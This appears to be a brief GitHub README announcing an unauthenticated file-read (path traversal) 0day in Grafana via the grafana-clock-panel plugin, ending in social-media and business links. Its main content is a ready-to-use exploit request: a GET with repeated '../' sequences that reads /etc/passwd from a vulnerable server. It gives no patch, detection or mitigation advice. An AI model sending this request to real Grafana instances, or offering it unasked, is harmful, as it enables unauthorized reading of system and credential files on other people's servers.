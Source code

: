 # grafana-unauth-file-read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

### Follow us
### [Youtube](https://www.youtube.com/c/rapidsafeguard)
### [Twitter](https://www.twiiter.com/rapidsafeguard)
### [Telegram](https://t.me/rapidsafeguard)
### [Vulnmachines.com](https://www.vulnmachines.com)
### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)
### [Business query](https://www.rapidsafeguard.com)
